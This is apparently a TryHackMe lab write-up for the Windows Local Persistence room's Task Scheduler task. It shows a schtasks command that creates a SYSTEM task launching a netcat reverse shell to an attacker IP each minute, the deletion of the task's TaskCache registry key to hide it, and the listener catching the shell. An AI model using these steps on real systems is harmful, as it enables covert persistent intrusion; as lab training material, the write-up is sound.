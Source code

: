 # About This Module
Module link: https://tryhackme.com/room/windowslocalpersistence

**Please feel free to point out any errors that you may see in this writeup!**

This writeup was last updated: 07/06/2023

# Task Scheduler
1. Started this room's machine
2. `schtasks /create /sc minute /mo 1 /tn <TASK NAME> /tr "c:\tools\nc64 -e cmd.exe <ATTACK MACHINE IP> <PORT NUMBER>" /ru SYSTEM`
```PowerShell
C:\Users\Administrator>schtasks /create /sc minute /mo 1 /tn THM-TaskBackdoor /tr "c:\tools\nc64 -e cmd.exe 10.10.39.232 9999" /ru SYSTEM
SUCCESS: The scheduled task "THM-TaskBackdoor" has successfully been created.
```
3. `schtasks /query /tn <TASK NAME>`
```PowerShell
C:\Users\Administrator>schtasks /query /tn THM-taskbackdoor

Folder: \
TaskName                                 Next Run Time          Status
======================================== ====================== ===============
THM-taskbackdoor                         7/7/2023 12:54:00 AM   Ready
```
4. `c:\tools\pstools\PsExec64.exe -s -i regedit`
```PoweShell
C:\Users\Administrator>c:\tools\pstools\PsExec64.exe -s -i regedit

PsExec v2.34 - Execute processes remotely
Copyright (C) 2001-2021 Mark Russinovich
Sysinternals - www.sysinternals.com
```

![](https://github.com/JonmarCorpuz/TryHackMe-Writeups/blob/main/TryHackMe%20Module%20Task%20Writeups/Assets/PsExec64.exe%20-s%20-i%20regedit.png)

![](https://github.com/JonmarCorpuz/TryHackMe-Writeups/blob/main/TryHackMe%20Module%20Task%20Writeups/Assets/Registry%20Editor%20Delete%20HKLM%20SOFTWARE%20Microsoft%20Windows%20NT%20CurrentVersion%20Schedule%20TaskCache%20Tree.png)

![](https://github.com/JonmarCorpuz/TryHackMe-Writeups/blob/main/TryHackMe%20Module%20Task%20Writeups/Assets/Registry%20Editor%20After%20Delete%20HKLM%20SOFTWARE%20Microsoft%20Windows%20NT%20CurrentVersion%20Schedule%20TaskCache%20Tree.png)

5. `schtasks /query /tn THM-taskbackdoor`
```PowerShell
C:\Users\Administrator>schtasks /query /tn THM-taskbackdoor
ERROR: The system cannot find the file specified.
```
6. `nc -lvnp <PORT NUMBER>`
```Bash
root@ip-10-10-39-232:~# nc -lvnp 9999
Listening on [0.0.0.0] (family 0, port 9999)
Connection from 10.10.61.182 49841 received!
Microsoft Windows [Version 10.0.17763.1821]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>
```
7. `C:\flags\flag9.exe`
```PowerShell
C:\Windows\system32>C:\flags\flag9.exe
C:\flags\flag9.exe
THM{JUST_A_MATTER_OF_TIME}
```

**TASK COMPLETED**
